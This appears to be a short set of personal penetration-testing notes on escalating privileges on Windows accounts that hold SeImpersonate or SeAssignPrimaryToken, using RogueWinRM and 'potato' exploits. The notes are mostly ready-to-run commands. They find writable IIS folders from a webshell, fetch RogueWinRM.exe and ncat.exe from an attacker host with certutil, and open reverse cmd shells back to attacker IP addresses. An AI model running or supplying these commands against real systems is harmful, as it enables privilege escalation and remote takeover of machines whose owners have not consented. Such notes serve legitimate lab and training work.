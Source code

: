 
if we have the privileges `SeImpersonate` or `SeAssignPrimaryToken` we can exploit this by:
	1. spawn a process that users can connect and authenticate to
	2. force privileged users to connect and authenticate

Account that usually have these are: `LOCAL SERVICE`, `NETWORK SERVICE ACCOUNTS`, `iis apppool\defaultapppool`, others?

If bits is not running:s
	Upload RogueWinRM exploit https://github.com/antonioCoco/RogueWinRM
		The story https://decoder.cloud/2019/12/06/we-thought-they-were-potatoes-but-they-were-beans/
	if webshell - looking for writeable dir on iis
		looking for dir where iis account has write: `C:\Windows\Microsoft.NET\Framework\<version>\Temporary ASP.NET Files\`
		`cd C:\Windows\Microsoft.NET\Framework\ && dir`
		`cd "C:\Windows\Microsoft.NET\Framework\v4.0.30319\Temporary ASP.NET Files" && dir`
		`c:\windows\temp` might also work
	 `certutil -urlcache -split -f "http://10.18.21.236:8000/tools/RogueWinRM.exe" "C:\Windows\temp\RogueWinRM.exe"`
	 `certutil -urlcache -split -f "http://10.18.21.236:8000/tools/ncat.exe" "C:\Windows\temp\ncat.exe"`
	`C:\Windows\temp\RogueWinRM.exe -p "C:\windows\temp\ncat.exe" -a "-e cmd.exe 10.18.21.236 443"`
	or `RogueWinRM.exe -p C:\windows\system32\cmd.exe` for interactive cmd
	`RogueWinRM.exe -p C:\windows\temp\nc64.exe -a "10.0.0.1 3001 -e cmd"` for nc reverse shell
	(since this starts the bits service there will be a delay of about 2 min until you can run this successfully again)

Generally the tools to look for are potatoes. A lot of the available ones are old and doesn't work. Here's what's worked for me:
	PetitPotato - https://github.com/wh0amitz/PetitPotato/releases/tag/v1.0.0
	

